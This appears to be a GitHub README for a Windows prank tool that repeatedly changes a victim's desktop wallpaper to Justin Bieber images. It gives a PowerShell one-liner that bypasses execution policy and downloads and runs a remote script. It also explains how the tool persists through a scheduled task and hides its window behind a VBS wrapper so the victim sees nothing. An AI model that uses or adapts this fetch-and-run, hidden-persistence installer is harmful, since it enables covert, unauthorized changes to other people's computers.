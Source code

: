 # Table of contents

- [1. Justin Wallpaper Prank](#1-justin-wallpaper-prank)
  - [1.1. How to use](#11-how-to-use)
  - [1.2. How it works](#12-how-it-works)
  - [1.3. How to remove](#13-how-to-remove)
  - [1.4. How to contribute](#14-how-to-contribute)
  - [1.5. License](#15-license)
  - [1.6. Version](#16-version)

# 1. Justin Wallpaper Prank

This script is a prank that will change the wallpaper of a victim's computer to Justin Bieber images.

It can be run by only running a single command in the cmd prompt.

Note: This only works on `Windows`.

For `Mac` version, please check out [this repository](https://github.com/FredericMartinez/justin-hack) from [Frederic Martinez](https://github.com/FredericMartinez).

## 1.1. How to use

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/install.ps1')|iex"

```

![install](./screenshots/install.png)

## 1.2. How it works

The command above will download a powershell script from this repository and run it.

Firstly, the script will create a directory under `%userprofile%` and download Justin's image from [here](./images).

Then the script will download the [changer.ps1](./changer/changer.ps1) that is in charge of changing the wallpaper. This `changer.ps1` script will be scheduled in the task scheduler to run every 5 minutes.

The reason why we also have a [jhcaller.vbs](./changer/jhcaller.vbs) is because if we schedule a PowerShell script into the task scheduler, it will quickly show up a cmd window and disappear. This is not what we want. So we use a `vbs` script to call the `changer.ps1` script, which is a little work around :
    
```vbs
objShell.Run strCMD, 0
```

In the `jhcaller.vbs` we can see this line of code. This line will run the `changer.ps1` script in the background and won't show any pop-up.

Finally, the scheduled task is created via a [task template](./changer/taskTemplate.xml) in order to edit some configurations that are not avaible in the task scheduler CLI, such as activating the scheduled task if the laptop isn't plugged-in.

## 1.3. How to remove

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/unistall/uninstall.ps1')|iex"
```

This will remove the scheduled task and the directory that was created.

![uninstall](./screenshots/uninstall.png)

## 1.4. How to contribute

If you want to contribute, please feel free to open a pull request or an issue.

## 1.5. License

[MIT](./LICENSE)

## 1.6. Version

- 1.0.0 [CHANGELOG](./CHANGELOG_1.0.0.md)
